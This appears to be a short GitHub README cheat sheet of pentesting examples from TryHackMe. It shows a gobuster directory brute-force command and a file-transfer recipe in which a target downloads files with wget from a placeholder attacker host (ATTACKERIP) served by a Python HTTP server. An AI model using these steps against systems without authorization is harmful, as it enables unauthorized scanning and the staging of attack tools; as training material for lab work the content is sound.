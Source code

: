 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE WEBSITE PAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
On win, start http server with Python and download files on target with wget request.<br>
On attacker (win): 
python3 -m http.server 1234 c:/testdir            -(1234 is port, and in last part is default dir for http server)<br>
On target in CMD (win/linux/any):<br>
wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR
    </td>
  </tr>
</table>

